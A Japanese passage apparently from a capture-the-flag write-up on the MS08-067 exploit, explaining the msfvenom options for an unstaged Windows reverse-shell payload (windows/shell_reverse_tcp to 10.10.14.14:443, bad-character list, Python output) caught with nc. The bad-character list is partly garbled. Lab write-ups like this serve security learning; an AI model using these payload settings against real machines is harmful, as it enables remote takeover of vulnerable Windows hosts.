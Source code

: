 ##### MS08_067_2018.py
シェルコードを作るために、msfvenomを使うことにします。エクスプロイトコードの例から、悪い文字リスト(-b)をコピーしておくことにする。以下のパラメータを使用する：

- -p windows/shell_reverse_tcp - これはシェルで私に接続し直すものです。shell_reverse_tcp を使用したため、ステージングされていない、つまりシェル全体がこのコードに含まれており、nc でコールバックをキャッチすることができます。もしshell/reverse_tcpを使用していたら、ステージングされたペイロードとなり、コールバックを取得するためにMetasploits exploit/multi/handlerを使用する必要がありました。
- LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread - ペイロードのための変数（私のIP、ポート、終了方法）を定義しています。
- -b " \x00x0a ◇x0d ◇x5c ◇x5f ◇x2e ◇x40" -使ってはいけない文字。pythonのコードのコメントから取得しました。
- -f py - python形式で出力する。例ではc形式を使用しており、それを少し変えて貼り付けただけです。どちらを使っても大丈夫です。
- -v shellcode - デフォルトのbufではなく、shellcodeという変数を設定する。これは、私が使っているコードで呼ばれているものと一致させたいのです。
- -a x86と--platform windows - 攻撃する環境を記述する。
